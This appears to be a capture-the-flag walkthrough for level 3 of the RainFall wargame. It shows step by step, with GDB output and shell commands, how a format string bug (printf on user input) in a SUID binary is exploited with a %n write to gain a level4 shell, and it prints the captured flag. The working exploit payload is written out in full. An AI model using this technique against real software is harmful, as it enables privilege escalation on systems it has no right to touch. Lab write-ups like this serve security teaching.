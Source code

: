 # Level 3 Walkthrough

## Who am I?

```bash
level3@RainFall:~$ id
uid=2003(level3) gid=2003(level3) groups=2003(level3)
```

## Where am I?

```bash
level3@RainFall:~$ ll
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3*
```

We are in possession of a SUID binary owned by `level4`. Our objective is to exploit this binary to gain a shell as `level4` and read the corresponding `.pass` file.

---

## Program Behavior

The binary reads input from `stdin`, prints it, and exits:

```bash
level3@RainFall:~$ ./level3
hello
hello
```

We try providing a large input:

```bash
level3@RainFall:~$ python -c "print 'A' * 200" | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

There is no crash, even with 200 characters. Unlike the previous level which used the unsafe `gets()`, this binary uses `fgets()`, which safely limits input size.

---

## GDB Analysis

### Disassemble `main()`

```gdb
(gdb) disas main
```

```asm
0x0804851a <+0>: push %ebp
0x0804851b <+1>: mov %esp,%ebp
0x0804851d <+3>: and $0xfffffff0,%esp
0x08048520 <+6>: call 0x80484a4 <v>
0x08048525 <+11>: leave
0x08048526 <+12>: ret
```

The `main()` function simply calls `v()`.

---

### Disassemble `v()`

```gdb
(gdb) disas v
```

We identify three important things:

1. Input is read with `fgets()` (safe from classic buffer overflow), unlike the previous level which used `gets()`.
2. The input is printed using `printf(buffer)` — **format string vulnerability!**
3. A comparison checks if a global variable `m` at `0x0804988c` is equal to 64 (`0x40`). If true, it launches a shell.

This logic was confirmed by decompiling the binary using Ghidra (see `decompiled_level3/v.c`).

---

## Format String Vulnerability

`printf(buffer)` is unsafe because the format string is entirely user-controlled. This lets us:

* Print stack contents with `%x`
* Write to arbitrary memory with `%n`

---

## Exploitation Strategy

### Step 1: Find offset on the stack

We inject 10 `%x` to see where our input lands:

```bash
level3@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x %x %x %x"' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078
```

We see that `AAAA` appears as `41414141` in hexadecimal, and it's the **4th** item on the stack. Therefore, we will use `%4$n` to write to the address placed as the 4th argument.

### Step 2: Inject address of `m` on the stack

```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c
```

We see `804988c` appear at position 4 confirmed. Since `printf` interprets the stack contents as integers or pointers, we had to inject the address in **little endian format** so that it’s correctly interpreted as `0x0804988c` on the stack.

### Step 3: Craft final payload

To exploit the vulnerability, we needed to:

* Identify the address to overwrite: `0x0804988c`, found from disassembly or decompilation.
* Determine the desired value: `64` (i.e. `0x40`) to pass the condition in the code: `if (m == 0x40)`.
* Discover that our input address appears as the 4th item on the stack (`%4$n`) through testing with multiple `%x`.
* Confirm that the input is copied via `fgets()` and used directly in `printf()`.

To write `64` to that address using `%n`, we must ensure that exactly **64 characters** are printed before `%4$n`. We use padding of 60 characters (`"A"*60`) plus the 4 bytes from the address.

To understand `%n`, consider this example:

```c
int written = 0;
printf("Hello world!%n", &written);
```

After executing, `written == 12`, because 12 characters were printed.

### Step 4: Build and launch the payload

```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' > /tmp/exploit
```

Run it:

```bash
level3@RainFall:~$ cat /tmp/exploit | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
```

However, this doesn't give a shell. We must use `cat -` to keep stdin open:

```bash
level3@RainFall:~$ cat /tmp/exploit - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
```

Finally, we read the flag:

```bash
$ cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

Success.

---

## Files in this repository

* `flag.txt` : file containing the retrieved flag
* `asm_analysis.md` : GDB analysis of the binary
* `decompiled_level3/` : folder containing the reconstructed C code from Ghidra

